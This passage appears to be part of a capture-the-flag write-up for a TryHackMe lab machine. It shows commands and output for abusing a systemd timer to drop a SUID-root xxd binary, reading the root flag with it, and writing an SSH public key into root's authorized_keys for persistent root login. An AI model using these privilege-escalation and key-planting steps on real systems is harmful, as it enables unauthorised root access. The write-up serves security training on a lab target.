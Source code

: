 The error occurred due to an invalid time value in the `OnBootSec=`. Fix it by adding a valid duration like `10s` or `1min`

<img width="586" height="231" alt="image" src="https://github.com/user-attachments/assets/42234523-15b1-4e9c-9698-a4b098149d81" />

Now restart it, and check the status.
```bash
comte@ip-10-10-73-245:~$ sudo /bin/systemctl daemon-reload
comte@ip-10-10-73-245:~$ sudo /bin/systemctl start exploit.timer
comte@ip-10-10-73-245:~$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: loaded (/etc/systemd/system/exploit.timer; disabled; vendor preset: enabled)
     Active: active (elapsed) since Sun 2025-07-20 22:09:05 UTC; 13s ago
    Trigger: n/a
   Triggers: ● exploit.service
```

Once it's active, the Exploit Service file will paste `xxd` onto the `/opt` folder. 
```bash
comte@ip-10-10-73-245:~$ ls -al /opt
total 28
drwxr-xr-x  2 root root  4096 Jul 20 22:09 .
drwxr-xr-x 19 root root  4096 Jul 20 21:01 ..
-rwsr-sr-x  1 root root 18712 Jul 20 22:09 xxd
```

### Privilege Escalation

We can abuse `xxd` for both file reading and writing. 
```bash
omte@ip-10-10-73-245:/opt$ LFILE=/root/root.txt
comte@ip-10-10-73-245:/opt$ ./xxd "$LFILE" | xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{dca75486094810807faf4b7b0a929b11e5e0167c}
```

Just as we did with the comte user, we will use `xxd` to write our public key to the `authorized_keys` file of the root user
```bash
comte@ip-10-10-73-245:/$ LFILE=/root/.ssh/authorized_keys
comte@ip-10-10-73-245:/$ echo "ssh-rsa AAA....ncLYVjnDGv7a6G1lLIWKjWwN+ED8= kali@kali" | /opt/xxd | /opt/xxd -r - "$LFILE"
```

Now exit and log in again as the **Root user**

<img width="1062" height="813" alt="image" src="https://github.com/user-attachments/assets/07ba9162-49a8-4cd9-bdc1-4bb442064e4d" />


